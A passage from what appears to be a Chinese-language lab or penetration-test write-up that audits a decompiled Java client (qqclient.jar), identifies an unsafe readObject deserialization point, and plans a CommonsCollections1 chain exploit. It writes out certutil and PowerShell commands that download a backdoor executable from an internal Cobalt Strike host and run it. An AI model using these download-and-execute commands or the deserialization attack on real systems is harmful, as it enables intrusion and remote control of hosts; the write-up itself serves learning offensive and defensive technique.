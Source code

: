 

大概 data 的这个 9999 端口 运行的就是 qqclient.jar ，在我们拿下的主机 web 里能找到源码

## java代码审计

把 qqclient.jar 下到本地，jdgui 查看源码

```java
public boolean checkUser(String userId, String pwd) {
    this.u.setUserId(userId);
    this.u.setPasswd(pwd);
    boolean b = false;
    try {
      this.socket = new Socket(InetAddress.getByName("192.168.22.146"), 9999);
      ObjectOutputStream oos = new ObjectOutputStream(this.socket.getOutputStream());
      oos.writeObject(this.u);
      ObjectInputStream ois = new ObjectInputStream(this.socket.getInputStream());
      Message ms = (Message)ois.readObject(); //反序列化的起点，接受信息，用户可控
      if (ms.getMesType().equals("1")) {
        ClientConnectServerThread ClientConnectServerThread = new ClientConnectServerThread(this.socket);
        ClientConnectServerThread.start();
        ManageClientConnectServerThread.addClientConnectServerThread(userId, ClientConnectServerThread);
        b = true;
      } else {
        this.socket.close();
      } 
    } catch (Exception e) {
      e.printStackTrace();
    } 
    return b;
  }
```

## cc1利用

从web服务器中看到的java版本是 jdk1.8.0_65 这个版本是能够使用 cc1这条反序列化链接的

在 cs 的 web 的权限里开启转发上线，配置后门到web路径里  `http://192.168.22.152/1.exe`

可以用 cc1

先把执行的命令整理下

```
certutil -urlcache -split -f http://192.168.22.152/1.exe C:/windows/temp/1.exe
C:/windows/temp/1.exe

powershell (new-object
System.Net.WebClient).DownloadFile('http://192.168.22.152/1.exe','c:\\windows\\temp\\evil.exe')
c:\\evil.exe
```
